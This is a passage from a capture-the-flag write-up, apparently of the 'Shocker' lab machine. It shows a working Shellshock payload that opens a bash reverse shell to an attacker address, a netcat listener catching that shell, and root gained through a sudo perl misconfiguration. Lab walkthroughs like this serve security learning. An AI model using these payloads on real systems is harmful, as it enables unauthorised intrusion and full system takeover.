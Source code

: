 `() { :;}; /bin/bash -i >& /dev/tcp/10.10.X.X/8888 0>&1`

This will get a bash reverse shell, which is the natural choice here as bash is available. Note that `echo;` is not needed here because we are not interested in the HTML response.

```
root@kali:~# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.56] 58462
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ cd ~
cd ~
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
```
Got the user flag!

<details><summary>Expand this if you want to understand the bash reverse shell.</summary></details>

## Privilege Escalation

Run `sudo -l` to list user shelly's privilege.

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
  ```
Since we can run Perl as root (without password!), we can escalate our privilege by launching a new shell with Perl. By running perl with root privileges,

`sudo perl -e 'exec "/bin/bash";'`

* `sudo` - execute command as another user; if you do not specify a user (like what we are doing here), it will assume you want to execute the command as root (superuser)

* `perl` - Perl language interpreter; we use it here because we can run it with root privileges.

* `-e` - indicates that the Perl command `exec "/bin/bash";` should be executed

After Perl executes the command to get us a bash shell, let's confirm if we have root privileges.

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash";'          
sudo perl -e 'exec "/bin/bash";'
whoami
root
```

# Ending Thoughts
